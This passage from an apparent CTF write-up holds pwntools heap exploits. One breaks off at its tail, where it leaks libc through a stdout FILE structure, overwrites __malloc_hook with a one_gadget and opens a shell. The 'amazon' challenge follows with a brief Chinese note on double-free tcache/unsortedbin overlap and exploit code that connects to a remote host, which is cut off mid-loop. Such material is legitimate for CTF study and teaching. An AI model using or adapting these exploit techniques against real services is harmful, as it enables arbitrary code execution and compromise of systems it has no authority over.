 ```python=
    except EOFError:
        sh.close()
        continue
    else:
        edit(7,'\x00'*0x33+p64(0xfbad1800)+p64(0)*3+'\x08')
        sh.recvuntil(p64(0xfbad1800)+'\x00'*24)
        leak=u64(sh.recv(6)+'\x00\x00')
        mallochook=0x7f20568e1b10+leak-0x7f20568e2608
        log.success("malloc_hook: "+hex(mallochook))
        libcbase=mallochook-libc.symbols['__malloc_hook']
        log.success("libcbase: "+hex(libcbase))
        create(0x60,11)
        free(11)
        edit(11,p64(mallochook-0x23))
        create(0x60,12)
        create(0x60,13)
        edit(13,'\x00'*19+p64(libcbase+onegadget[1]))
        create(0x1,1)
        #gdb.attach(sh) 
        sh.interactive()
        break
#ctf{63f2fa2d7f94394dc3d8e9be1abd34c4}
```

### amazon
Free之后没有置零，可以无限free。。。但是没有uaf，早unsortedbin合并后，造成tcache跟unsortedbin的重合，可以控制fd，然后就是常规的改free到system。
注意改了IO_lock后没办法getshell，这边卡了好久。

```python=
from pwn import *
#r=process('./amazon')
r=remote('121.41.38.38',9999)
gadget=0x10a38c
libc=ELF('./libc-2.27.so')
def add(idx,one,size,content):
    r.sendlineafter('Your choice: ','1')
    r.sendlineafter('want to buy:',str(idx))
    r.sendlineafter('How many: ',str(one))
    r.sendlineafter('ow long is your note: ',str(size-0x28))
    r.sendafter('Content: ',content)

def show():
    r.sendlineafter('Your choice: ','2')

def free(idx):
    r.sendlineafter('Your choice: ','3')
    r.sendlineafter('hich item are you going to pay for: ',str(idx))

def gd():
    gdb.attach(r)
    pause()

add(0,0,0x100,'aaaa')#0
add(0,0,0xf0,'bbbb')#1
add(0,0,0x110,'dddd')#2
add(0,0,0x120,'dddd')#3
add(0,0,0xf0,'/bin/sh')#4
for i in range(8):
    free(0)

for i in range(8):
    free(1)
for i in range(8):
```